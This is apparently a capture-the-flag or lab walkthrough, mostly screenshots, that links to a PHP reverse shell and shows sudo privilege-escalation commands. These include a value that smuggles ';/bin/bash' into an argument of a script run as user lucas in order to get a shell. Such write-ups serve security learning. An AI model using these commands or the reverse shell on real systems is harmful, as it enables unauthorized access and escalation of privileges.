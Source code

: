 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0f3e8358-e78e-4325-8728-7f7a9c85a86d)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f0cf6e30-3339-46ba-be5a-6983efc994f1)

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/923730ef-244c-4e40-90b6-6471fc00c17e)

https://www.md5hashgenerator.com/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ef5fa02-b286-4971-875b-18df0c36a827)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/26132477-e09c-4fbd-8aca-287bc8cce327)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cd22786a-14a7-4225-a78c-56e17a6afb6d)

```
sudo -l
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/91b888b3-c4e0-4d26-9154-ccd0ea259365)
```
sudo -u lucas ./secretScript.sh;x="/home;/bin/bash"
sudo -u lucas ./secretScript.sh $x
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7056a03f-dff1-4106-bbad-2bcf50bc6048)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a60106ae-1138-4d2c-8a99-86bd3d59b48f)





